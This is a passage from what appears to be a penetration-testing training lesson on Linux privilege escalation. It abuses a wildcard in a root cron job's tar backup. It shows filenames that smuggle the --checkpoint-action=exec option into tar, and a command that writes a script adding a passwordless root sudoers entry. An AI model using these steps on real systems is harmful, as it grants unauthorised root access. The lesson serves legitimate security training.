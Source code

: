 <p>An example of how wildcards can be abused for privilege escalation is the <code>tar</code> command, a common program for creating/extracting archives. If we look at the <a href="http://man7.org/linux/man-pages/man1/tar.1.html" target="_blank" rel="noopener nofollow">man page</a> for the <code>tar</code> command, we see the following:</p>
<div class="window_container"><div class="window_content">
                <div class="window_top">
                    <span class="window_dot bg-danger"></span>
                    <span class="window_dot bg-warning"></span>
                    <span class="window_dot bg-success"></span>
                    <span class="window_title"></span>
                </div>
            <pre class=" language-shell-session" style="line-height: 0px;"><code class=" language-shell-session"><span class="token info punctuation"><span class="token user">htb_student@NIX02</span><span class="token punctuation">:</span><span class="token path">~</span></span><span class="token command"><span class="token shell-symbol important">$</span> <span class="token bash language-bash"><span class="token function">man</span> <span class="token function">tar</span></span></span>

<span class="token output">&lt;SNIP&gt;
Informative output
       --checkpoint[=N]
              Display progress messages every Nth record (default 10).

       --checkpoint-action=ACTION
              Run ACTION on each checkpoint.
</span></code></pre></div></div>
<p>The <code>--checkpoint-action</code> option permits an <code>EXEC</code> action to be executed when a checkpoint is reached (i.e., run an arbitrary operating system command once the tar command executes.) By creating files with these names, when the wildcard is specified, <code>--checkpoint=1</code> and <code>--checkpoint-action=exec=sh root.sh</code> is passed to <code>tar</code> as command-line options. Let's see this in practice.</p>
<p>Consider the following cron job, which is set up to back up the <code>/root</code> directory's contents and create a compressed archive in <code>/tmp</code>. The cron job is set to run every minute, so it is a good candidate for privilege escalation.</p>
<div class="window_container"><div class="window_content">
                <div class="window_top">
                    <span class="window_dot bg-danger"></span>
                    <span class="window_dot bg-warning"></span>
                    <span class="window_dot bg-success"></span>
                    <span class="window_title"></span>
                </div>
            <pre class=" language-shell-session" style="line-height: 0px;"><code class=" language-shell-session"><span class="token output">#
#
mh dom mon dow command
*/01 * * * * cd /root &amp;&amp; tar -zcf /tmp/backup.tar.gz *
</span></code></pre></div></div>
<p>We can leverage the wild card in the cron job to write out the necessary commands as file names with the above in mind. When the cron job runs, these file names will be interpreted as arguments and execute any commands that we specify.</p>
<div class="window_container"><div class="window_content">
                <div class="window_top">
                    <span class="window_dot bg-danger"></span>
                    <span class="window_dot bg-warning"></span>
                    <span class="window_dot bg-success"></span>
                    <span class="window_title"></span>
                </div>
            <pre class=" language-shell-session" style="line-height: 0px;"><code class=" language-shell-session"><span class="token info punctuation"><span class="token user">htb_student@NIX02</span><span class="token punctuation">:</span><span class="token path">~</span></span><span class="token command"><span class="token shell-symbol important">$</span> <span class="token bash language-bash"><span class="token builtin class-name">echo</span> <span class="token string">'echo "cliff.moore ALL=(root) NOPASSWD: ALL" &gt;&gt; /etc/sudoers'</span> <span class="token operator">&gt;</span> root.sh</span></span>